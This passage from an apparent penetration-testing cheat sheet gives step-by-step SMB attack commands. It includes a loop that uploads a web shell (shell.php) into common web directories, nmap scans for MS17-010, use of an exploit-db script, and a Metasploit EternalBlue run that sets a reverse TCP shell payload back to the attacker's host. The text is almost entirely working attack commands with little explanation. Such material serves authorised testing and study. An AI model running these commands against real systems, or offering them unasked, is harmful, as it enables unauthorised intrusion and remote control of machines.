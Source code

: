 **Step 2: Web Directory Upload Testing**
```bash
# Common web directories to test
webdirs=("www" "html" "public_html" "web" "htdocs" "wwwroot")
for dir in "${webdirs[@]}"; do
    echo "Testing upload to: $dir"
    cd /$dir 2>/dev/null || cd /var/$dir 2>/dev/null || cd /var/www/$dir 2>/dev/null
    put shell.php
done
```

## SMB Exploitation Techniques

### Method 1: EternalBlue (MS17-010)

**Step 1: Vulnerability Detection**
```bash
# Check for EternalBlue vulnerability
nmap --script smb-vuln-ms17-010 -p 445 $IP
nmap --script smb-vuln-* -p 445 $IP

# Alternative detection
python3 /usr/share/exploitdb/exploits/windows/remote/42315.py $IP
```

**Step 2: EternalBlue Exploitation**
```bash
# Using Metasploit
msfconsole
use exploit/windows/smb/ms17_010_eternalblue
set RHOSTS $IP
set payload windows/x64/shell_reverse_tcp
set LHOST your_ip
set LPORT 4444
exploit

# Manual exploitation (Python script)
searchsploit ms17-010
cp /usr/share/exploitdb/exploits/windows/remote/42315.py .
python3 42315.py $IP
```

### Method 2: SMBv1 Vulnerabilities

**Step 1: SMBv1 Detection**
```bash
# Check SMB version
nmap --script smb-protocols -p 445 $IP
smbclient -L //$IP -N --option='client min protocol=NT1'

# Vulnerability scanning
nmap --script smb-vuln-* -p 445 $IP
```
